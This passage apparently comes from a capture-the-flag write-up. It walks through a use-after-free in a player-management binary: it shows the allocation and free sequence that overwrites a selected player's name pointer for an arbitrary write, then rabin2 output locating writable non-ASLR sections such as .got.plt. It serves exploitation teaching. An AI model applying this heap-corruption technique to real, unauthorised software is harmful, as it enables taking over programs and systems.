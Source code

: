 
There are several ways we could make the program allocate the name
at the exact same address of the freed selected player, here is how I did it:

```text
                 1 - We create two players and make sure that at least one of them
                     has a name bigger than sizeof(struct player). After that we
                     can select the first one:

                     add_player('A' * (0x18-1))  # sizeof(struct player) - 1 null byte
                     add_player('A' * 0xaa)      # 0xaa is just a custom big value >= 0x18
                     select_player(0)

                 +---------------+---------------+----------------+
                 |               |               |                |
    +----------> | Player0       | Player0.name  | Player1        |
    |            +---------------+---------------+----------------+
    |
    |            2 - Now let's free everything: 
    |               rm_player(0)
    |               rm_player(1)
    |
    |            +---------------+---------------+----------------+
                 |               |               |                |
Selected ------> | #2 Free       | #1 Free       | #3 Free        |
                 +---------------+---------------+----------------+
    |
    |            3 - And finally add one last player:
    |                add_player('A'*0x10 + some_address)
    |
    |            +---------------+---------------+----------------+
    +----------> |               |               |                |
                 | Player0.name  | #1 Free       | Player0        |
                 +---------------+---------------+----------------+
```


As you can see, this method let us overwrite the content of the selected player
and in particular the pointer to its name. Once we have done it, if we edit
the name of the selected player we will be writing at that address.
That's pretty cool, we are now able to write anything anywhere...

So, next question is: what and where do we write in order to change the
flow of the program? 
Unfortunately we don't know where most of the things are...damn ASLR! 
So we can check which parts aren't subject to aslr and have write permission:

```console
$ rabin2 -I main.elf | grep pic
pic      false
$ rabin2 -S main.elf | grep "perm=.*w.* "
idx=19 vaddr=0x00602e10 paddr=0x00002e10 sz=8 vsz=8 perm=--rw- name=.init_array
idx=20 vaddr=0x00602e18 paddr=0x00002e18 sz=8 vsz=8 perm=--rw- name=.fini_array
idx=21 vaddr=0x00602e20 paddr=0x00002e20 sz=8 vsz=8 perm=--rw- name=.jcr
idx=22 vaddr=0x00602e28 paddr=0x00002e28 sz=464 vsz=464 perm=--rw- name=.dynamic
idx=23 vaddr=0x00602ff8 paddr=0x00002ff8 sz=8 vsz=8 perm=--rw- name=.got
idx=24 vaddr=0x00603000 paddr=0x00003000 sz=328 vsz=328 perm=--rw- name=.got.plt
idx=25 vaddr=0x00603148 paddr=0x00003148 sz=16 vsz=16 perm=--rw- name=.data
idx=26 vaddr=0x00603160 paddr=0x00003158 sz=120 vsz=120 perm=--rw- name=.bss
idx=34 vaddr=0x00602e10 paddr=0x00002e10 sz=840 vsz=968 perm=m-rw- name=LOAD1
idx=35 vaddr=0x00602e28 paddr=0x00002e28 sz=464 vsz=464 perm=m-rw- name=DYNAMIC
idx=38 vaddr=0x00000000 paddr=0x00000000 sz=0 vsz=0 perm=m-rw- name=GNU_STACK
idx=40 vaddr=0x00400000 paddr=0x00000000 sz=64 vsz=64 perm=m-rw- name=ehdr
```
